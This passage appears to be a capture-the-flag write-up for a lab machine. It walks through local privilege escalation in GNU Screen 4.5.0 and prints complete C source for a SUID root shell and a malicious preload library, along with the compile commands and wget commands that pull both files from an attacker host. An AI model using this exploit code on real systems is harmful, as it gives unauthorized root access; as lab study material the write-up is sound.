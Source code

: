 `/bin/screen-4.5.0` is not a binary I am familar with, so I google it.

My first hit is from the exploit-db, exploit [41154](https://www.exploit-db.com/exploits/41154) - GNU Screen 4.5.0 - Local Privilege Escalation.

I read through the exploit and understand that this is an SUID hijack that creates a binary that will allow a swich user priveleges to root.

I've never had much success with compilation scripts running natively on victim boxes and because I know my arch matches Wall's I decide to manually create the C requirments locally and then ship them over.

On my Kali in my working directory I create 2 files:

rootshell.c

``` C
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

and libhax.c

``` C
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

I then follow the script with some modifications to generate my evil code:

``` bash
gcc -fPIC -shared -ldl -o libhax.so libhax.c
gcc -o rootshell rootshell.c
```

I get some C related warnings, but the code compiles ok.
Now I have an evil lib and executable.

Next I go back to my shell, move to /tmp and copy the files over

``` bash
cd /tmp && wget http://10.10.14.37/rootshell
wget http://10.10.14.37/libhax.so
```
